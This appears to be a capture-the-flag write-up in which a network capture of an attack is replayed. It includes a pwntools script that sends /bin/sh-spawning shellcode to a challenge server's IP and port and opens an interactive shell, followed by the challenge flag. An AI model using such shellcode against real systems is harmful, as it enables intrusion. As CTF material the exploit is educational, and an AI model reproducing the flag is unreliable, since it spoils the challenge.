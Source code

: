 ### description
---
Brainiac has exploited a binary running on our server on the space station, thankfully the binary is still running but our data was stolen. We also were able to get a network traffic capture when Brainiac exploited our server. He also defaced the binary as well.

The flag is on the server that is running.

File: exploit.pcap

### solve
---
*  Follow the tcp stream in the exploit.pcap file to see the conversation. 
* Mirror this conversation and read flag.txt
![](../_images/a5fb4b5e8d1622531b7caae36bde1d1f.png)
```python
import socket
from pwn import *

REMOTE_IP = '165.227.210.30'
REMOTE_PORT = 16306

s = remote(REMOTE_IP, REMOTE_PORT)

resp1 = s.recv(99999)
resp2 = b''
for c in range(281):
    part = s.recv(1024)
    resp2 += part
print(resp2)
message = b'\x41\x59\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\x48\xc7\xc1\x80\x10\x40\x00\xff\xd1\x0a'
s.sendline(message)
resp3 = b''
for c in range(16):
    part = s.recv(1024)
    resp3 += part
print(resp3)
message = b'\x00\x00\x11\xca\x00\x00\x00\x00\x0a'
s.sendline(message)
resp4 = b''
for c in range(22):
    part = s.recv(1024)
    resp4 += part
print(resp4)
message = b'\x41\x41\x41\x41\x41\x41\x41\x41\x0a'
s.interactive()
```
Flag:
```
shctf{1_4m_n0t_pr0gr4mm3d_t0_3xp3r13nc3_hum0r}
```